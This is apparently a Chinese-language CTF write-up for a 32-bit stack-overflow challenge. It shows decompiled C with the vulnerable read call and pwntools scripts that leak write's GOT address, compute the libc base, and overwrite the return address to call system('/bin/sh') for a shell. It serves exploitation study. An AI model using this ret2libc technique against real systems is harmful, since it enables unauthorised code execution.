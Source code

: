 ```c
  write(1, &buf, strlen((const char *)&buf));
  sub_8048484();
  return 0;
}
```

```c
ssize_t sub_8048484()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 256u);
}
```

发现sub_8048484()存在栈溢出

复习一下找libc版本-->getshell的步骤：

1. 用puts、write、printf之类的函数打印出某个函数的got，同时要控制好打印后的返回地址
2. 获得libc的版本、system函数，/bin/sh的地址等，并计算在plt中的位置
3. 构造payload

这题我们使用write()打印出write.got：

```py
write_plt = elf.plt['write']
write_got = elf.got['write']

addr_out = 'a'*112 + p32(write_plt) + p32(0x080483D0) + p32(1) + p32(write_got) +p32(4)
#1+write_got+4==write(..,..,..)
#返回地址为程序入口地址
p.sendlineafter('\n', addr_out)
a = u32(p.recvn(4))
write_got_addr =  a

print hex(write_got_addr)
```

这里提示一下，“p32(1) + p32(write_got) +p32(4)”构造的是一个write函数的参数，之前看别人的wp想了好久1和4是啥...太蠢了

用低12位搜索libc的时候注意，查看的是16进制的地址，别再在这卡一个晚上了...将地址和偏移地址进行计算的时候不用转成16进制（str和int的问题）

后续的代码：

```py
write_off = 0x0d43c0
sys_off = 0x03a940
binsh_off = 0x15902b

base = write_got_addr - write_off
sys = sys_off + base
binsh = binsh_off + base

print p.recv()
payload = 'a'*112 + p32(sys) + p32(1) + p32(binsh)

p.sendline(payload)
p.interactive()
```
